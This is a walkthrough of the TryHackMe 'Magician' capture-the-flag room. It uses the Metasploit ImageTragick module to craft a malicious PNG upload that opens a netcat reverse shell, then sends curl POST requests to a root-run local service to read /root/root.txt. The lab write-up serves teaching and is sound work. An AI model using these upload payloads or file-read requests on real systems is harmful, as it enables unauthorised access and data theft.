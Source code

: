 ```yaml
---
title:  "Magician - TryHackMe"
style: fill
color: secondary
tags: [TryHackMe, Walkthrough, CVE , Curl]
permalink: /blog/thm/magician
description: This is a easy to medium room from TryHackMe which requires a lot of patience and try hard attitude.
---
```


Created by [M0N573R777](https://tryhackme.com/p/M0N573R777) and [ripcurlz](https://tryhackme.com/p/ripcurlz). Access the room [here](https://tryhackme.com/room/magician).

![]({{ "/assets/images/thm/magician/banner.png" | relative_url }})

> Note: Please add the IP address of this machine with the hostname "magician" to your /etc/hosts file on Linux before you start.
> On Windows, the hosts file should be at C:\\Windows\\System32\\drivers\\etc\\hosts.
> Use the hostname instead of the IP address if you want to upload a file. This is required for the room to work correctly ;)

## Overview:

## Enumeration:

Starting with nmap scan...

```sh
nmap -sV -p- -v -oN nmap.initial 10.10.91.30
```



The webpage at port 8081 looks like this. It contains file upload functionality.
<br>
![]({{ "/assets/images/thm/magician/magician8081.png" | relative_url }})

We can login to FTP anonymously. Wait for few seconds after entering the credentials to get the response as the 'delay_successful_login' is enabled.
```sh
┌──(root💀kali)-[~/TryHackMe/Magician]
└─# ftp 10.10.91.30
Connected to 10.10.91.30.
220 THE MAGIC DOOR
Name (10.10.91.30:root): Anonymous
331 Please specify the password.
Password:
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
```
This is the message we get when we login to FTP anonymously.
>230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...

There is a metasploit module for this exploit which creates a .png file for us.

Module: exploit/unix/fileformat/imagemagick_delegate

```sh
msf6 > use exploit/unix/fileformat/imagemagick_delegate
msf6 exploit(unix/fileformat/imagemagick_delegate) > set target 1
# Set your LHOST
msf6 exploit(unix/fileformat/imagemagick_delegate) > set LHOST 10.10.10.10
# You can set a different FILENAME if you want
msf6 exploit(unix/fileformat/imagemagick_delegate) > run

[+] msf.png stored at /root/.msf4/local/msf.png

```
A file is created. This is the file you have to upload.
## Gaining Foothold:
Before uploading, start the multi handler with **cmd/unix/reverse_netcat** payload and set LHOST and LPORT same as when you generated the .png file.
Upload the file and submit and you will have your reverse_shell.

![]({{ "/assets/images/thm/magician/revshell.png" | relative_url }})

Upgrade your shell which "**base -i**" command and get the user flag in the users directory

![]({{ "/assets/images/thm/magician/userflag.png" | relative_url }})
## Privilege Escalation:
Start the enumeration for privilege escalation. In the user's directory you will get a file **the_magic_continues**.
```
magician@magician:~$ cat the_magic_continues
cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

Maybe there is a service listening locally but is not available for outside.
```sh
netstat -tulpn
```
![]({{ "/assets/images/thm/magician/netstat.png" | relative_url }})

There is a service listening on port 6666. Let's list out the processes running as root.

![]({{ "/assets/images/thm/magician/ps.png" | relative_url }})

We can see that there is a gunicorn webapp running on port 6666.
Using curl we can see the contents of the webpage. There is a POST form on the webpage which accepts a filename.
```
curl http://127.0.0.1:6666/
```
![]({{ "/assets/images/thm/magician/form.png" | relative_url }})

We will try to send a post request using curl and see if we are able to get back the response. 
```sh
curl -X POST http://127.0.0.1:6666/ -d "filename=/home/magician/user.txt"
```

![]({{ "/assets/images/thm/magician/base64user.png" | relative_url }})

![]({{ "/assets/images/thm/magician/base64userflag.png" | relative_url }})

We get a base64 encoded string and it is indeed our user flag as we tried to retrieve it. As the service is running as root, we can get the root flag as well.
```sh
curl -X POST http://127.0.0.1:6666/ -d "filename=/root/root.txt"
```
![]({{ "/assets/images/thm/magician/base64.png" | relative_url }})

![]({{ "/assets/images/thm/magician/rootflag.png" | relative_url }})

Yes, we do get the root flag.
That's it for this room. I couldn't get the root shell on this machine. Maybe this is how it works. You can also Port Forward the port 6666 to your attacker machine and access the webpage in the browser.

## Thank-you!!

Do follow me on socials below for stay connected for these kind of writeups/walkthroughs/blogs.